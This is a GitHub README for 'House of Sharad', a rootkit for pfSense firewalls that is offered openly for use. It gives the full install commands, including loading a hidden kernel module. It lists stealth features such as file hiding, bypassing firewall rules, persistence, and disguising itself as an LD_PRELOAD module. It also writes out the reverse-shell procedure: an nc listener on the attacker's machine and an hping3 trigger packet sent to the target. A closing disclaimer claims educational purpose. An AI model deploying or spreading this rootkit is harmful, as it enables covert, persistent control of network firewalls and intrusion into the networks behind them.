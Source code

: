 ## House of Sharad - pfSense Rootkit

🚀 Overview

House of Sharad is a pfSense rootkit that hooks into the IPv4 stack, allowing for stealthy reverse shells by detecting specially crafted packets.

🔥 Huge Thanks

First and foremost, a massive thank you to my friend Sharad (mineo333) for helping implement the core functionality of forking a process and executing kern_execve() in the child. This is what enables command execution when a packet with a specific source port is detected. This rootkit wouldn't be possible without his help.

Additionally, the file-hiding functionality is directly borrowed from BlueDragonSecurity's (bluedragonsecurity) bds_freebsd project. Huge thanks for this work!

📌 Compatibility

The precompiled .ko files are only compatible with pfSense 2.7.2 CE.

If you need to compile them yourself, you must do so within a pfSense environment (not just a compatible FreeBSD kernel).

Follow the setup guide: extra/how_to_setup_pfsense_to_compile.txt.

🛠️ Features

✅ Hooks into pfSense’s IPv4 stack for stealthy reverse shell execution

✅ Bypasses firewall rules (even if attacker IP/port is blocked)

✅ Persistent LKM-based rootkit

✅ File hiding functionality

✅ Uses socat for reliable reverse shells (FreeBSD’s nc lacks reverse shell support)

🏗️ Installation

1️⃣ Cloning and Setup

# Clone the repository
git clone https://github.com/Mon-keyBoy/house_of_sharad.git
cd house_of_sharad

# Set execution permissions
chmod +x load_and_setup.sh

# Run the setup script
./load_and_setup.sh

Once the script completes, you'll be inside a ghost /Apekit-tooshit directory. To return to root, run:

cd /

2️⃣ Loading the Rootkit

kldload /boot/modules/.evil/evil.ko

🛡️ Getting a Reverse Shell

1️⃣ Start a Listener

On your attacking machine, open a terminal and start a listener:

nc -lvnp 7000

2️⃣ Trigger the Reverse Shell

In another terminal, send packets that will activate the rootkit:

sudo hping3 -S -p 80 -s 6969 <TARGET_IP>

🔹 Port 80 is a good choice for the destination port.
🔹 If the shell doesn’t connect after ~5 packets, press Ctrl + C and re-run the command (packet filtering can be finicky).

🧩 Additional Notes

Persistence: This rootkit is loaded via apeshit.sh, which is executed by load_and_setup.sh.

LD_PRELOAD Misdirection: The rootkit falsely appears as an LD_PRELOAD-related module, even though it’s an LKM.

Extra Fun: The extra/ directory contains a simple LKM that prints a face endlessly to the terminal (input still works, but it scrolls rapidly). To stop it, simply unload the module.

⚠️ Disclaimer: This project is for educational and research purposes only. Unauthorized use may be illegal. The author takes no responsibility for misuse.

